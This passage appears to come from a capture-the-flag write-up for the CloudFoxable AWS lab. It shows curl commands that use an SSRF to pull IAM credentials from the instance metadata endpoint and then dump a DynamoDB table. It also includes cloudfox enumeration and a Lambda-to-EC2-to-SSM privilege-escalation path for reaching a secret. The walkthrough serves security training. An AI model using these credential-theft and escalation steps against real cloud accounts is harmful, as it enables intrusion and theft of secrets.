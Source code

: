This shows that role `wyatt` had access to perform some operations on DynamoDB table `wyatt-table`. The instance in concern has a public and private IP, but visiting the service via the bastion to keep it internal &rarr;

```bash
nmap -Pn -p 12380 <PrivateIP> # potentially looks like a webserver
curl http://<PrivateIP>:12380 # gives a classic SSRF application that takes in a URL and visits it
```

So, passing in the URL for IMDSv1 to get the credentials of `wyatt` as &rarr;

```bash
curl http://<PrivateIP>:12380?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/wyatt
```

This gave the credentials for `wyatt` using which a scan operation could be performed on the `wyatt-table` table as follows to get the flag &rarr;

```bash
awsn dynamodb scan --table-name wyatt-table --region us-west-2 --profile wyatt
```

## Double Tap

This challenge requires starting at `ctf-starting-user` and getting to a secret `DT_Flag`. The following `cloudfox` commands help narrow down analysis and search &rarr;

```bash
cloudfox aws principals -p cloudfoxable -v2
cloudfox aws permissions --principal double_tap_asdf -p cloudfoxable -v2
cloudfox aws permissions --principal double_tap_esdf -p cloudfoxable -v2
cloudfox aws permissions --principal double_tap_qsdf -p cloudfoxable -v2
cloudfox aws permissions --principal double_tap_secret -p cloudfoxable -v2
cloudfox aws permissions --principal double_tap_xsdf -p cloudfoxable -v2
cloudfox aws permissions --principal double_tap_zsdf -p cloudfoxable -v2
cloudfox aws permissions --principal lambda_ec2 -p cloudfoxable -v2
awsn ec2 describe-instances --region us-west-2 --profile cloudfoxable | jq '.Reservations[].Instances[] | select(.Tags[].Key=="double_tap1") | .InstanceId'
cloudfox aws instances -p cloudfoxable -v2
cloudfox aws role-trusts -p cloudfoxable -v2
cloudfox aws permissions --principal ec2_privileged -p cloudfoxable -v2
cat cloudfoxable-gaad.json | jq '.Policies[] | select(.PolicyName=="ec2_privileged_policy")'
awsn ec2 describe-instances --region us-west-2 --profile cloudfoxable | jq '.Reservations[].Instances[] | select(.Tags[].Key=="double_tap2") | .InstanceId'
```

This analysis gives the following potential attack path &rarr;

- `ctf-starting-user` can assume role `double_tap_xsdf`
- `double_tap_xsdf` can create and invoke Lambda functions and pass `lambda_*` roles
- Role`lambda_ec2` has full EC2 access if the resource has tag `double_tap1` equal to `true`, which was true for an instance that had the `ec2_privileged` role attached to it
- `ec2_privileged` role can perform `ssm:SendCommand` and `ssm:StartSession` as long as the resource has the `double_tap2` tag equal to `true`, which was true for the instance that had the `double_tap_secret` role attached
- `double_tap_secret` role could read the secret in concern
